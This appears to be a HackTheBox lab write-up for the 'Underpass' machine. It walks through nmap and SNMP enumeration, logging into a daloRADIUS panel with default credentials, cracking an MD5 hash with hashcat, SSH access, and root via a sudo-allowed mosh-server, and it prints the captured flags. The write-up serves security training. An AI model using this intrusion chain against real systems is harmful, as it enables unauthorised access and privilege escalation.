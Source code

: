 ```yaml
---
title: "Underpass"
date: 2025-06-20
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Underpass

![](assets/Pasted%20image%2020250505131450.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.11.48 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 13:15 CEST
Nmap scan report for 10.10.11.48
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   40.70 ms 10.10.14.1
2   40.98 ms 10.10.11.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.47 seconds
```

```shell
$ sudo nmap -sU --top-ports 50 -Pn 10.10.11.48 --open
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 13:15 CEST
Nmap scan report for 10.10.11.48
Host is up (0.041s latency).
Not shown: 30 open|filtered udp ports (no-response), 19 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 15.97 seconds
```

Enumerating `snmp` we find the instance name running on the server

```shell
$ snmpwalk -c public -v1 -t 10 10.10.11.48
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (31611) 0:05:16.11
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (2) 0:00:00.02
```

Using `feroxbuster` to discover paths inside `/daloradius`

```shell
$ feroxbuster -u http://10.10.11.48/daloradius -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 60 -x txt -x html -x php -x conf -C 302,301,403,404,400 -k
                                                                                                       
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.48/daloradius
 🚀  Threads               │ 60
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 💢  Status Code Filters   │ [302, 301, 403, 404, 400]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, html, php, conf]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4

[>-------------------] - 2m     26395/6369090 202/s   http://10.10.11.48/daloradius/app/users/ 
[>-------------------] - 43s     3625/6369090 85/s    http://10.10.11.48/daloradius/app/operators/
```

Going to `/users` shows the user login and `/operators` the admin login panel

![](assets/Pasted%20image%2020250505154754.png)

The official repo ([https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS](https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS)) install instructions indicate the default password: `administrator:radius` so

![](assets/Pasted%20image%2020250505154857.png)

Inside, in the search bar at the top right, click to search all users

![](assets/Pasted%20image%2020250505154955.png)

Using `hashcat` crack the MD5 password

```shell
$ hashcat -m 0 hash /usr/share/wordlists/rockyou.txt --force     
hashcat (v6.2.6) starting

412dd4759978acfcc81deab01b382403:underwaterfriends
```

So `svcmosh:underwaterfriends`

Access the machine via `SSH` with these new credentials

```shell
$ ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
svcMosh@underpass:~$ whoami
svcMosh
```

## Privilege Escalation

Get the flag

```shell
svcMosh@underpass:~$ cat user.txt
ebb6347ca59834b16b35e1c7b24c9447
```

This user can execute `mosh-server` as sudo, so create a server and connect to it with `mosh-client`

```shell
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

```shell
svcMosh@underpass:~$ sudo /usr/bin/mosh-server 

MOSH CONNECT 60002 fNKglQ/C1dr9J3+wOb7TTQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2641]

svcMosh@underpass:~$ MOSH_KEY=fNKglQ/C1dr9J3+wOb7TTQ mosh-client 127.0.0.1 60002
```

```shell
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

...
Mosh: You have a detached Mosh session on this server (mosh [2631]).
...

root@underpass:~# whoami
root
```

## Post Exploitation

Get the flag

```shell
root@underpass:~# cd /root
root@underpass:~# cat root.txt
a883be264024dedc4faa1ff74f9c1c07
```
